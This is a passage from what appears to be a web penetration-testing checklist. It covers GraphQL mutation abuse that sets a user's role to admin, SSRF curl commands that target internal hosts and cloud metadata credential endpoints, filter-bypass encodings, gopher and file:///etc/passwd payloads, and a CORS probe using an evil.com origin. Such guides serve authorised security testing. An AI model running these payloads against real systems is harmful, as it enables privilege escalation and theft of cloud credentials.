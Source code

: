 #### Mutation Abuse
```graphql
mutation {
  updateUser(id: 1, role: "admin") {
    id
    role
  }
}
```

### Step 9.2: SSRF (Server-Side Request Forgery)

#### Basic SSRF
```bash
# Test internal network access
curl "$TARGET/fetch?url=http://127.0.0.1:8080"
curl "$TARGET/fetch?url=http://localhost:22"
curl "$TARGET/fetch?url=http://192.168.1.1"

# Cloud metadata (AWS)
curl "$TARGET/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Cloud metadata (GCP)
curl "$TARGET/fetch?url=http://metadata.google.internal/computeMetadata/v1/"

# Cloud metadata (Azure)
curl "$TARGET/fetch?url=http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

#### Bypass Filters
```bash
# URL encoding
http://127.0.0.1 → http://127.1
http://127.0.0.1 → http://0x7f000001
http://127.0.0.1 → http://2130706433  (decimal)

# DNS rebinding
# Use services like: http://1u.ms/

# Protocol smuggling
gopher://127.0.0.1:6379/_SET%20flag%20...
file:///etc/passwd
```

### Step 9.3: CORS Misconfiguration
```bash
# Check CORS policy
curl -H "Origin: http://evil.com" -I $TARGET/api/user

# Look for:
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```
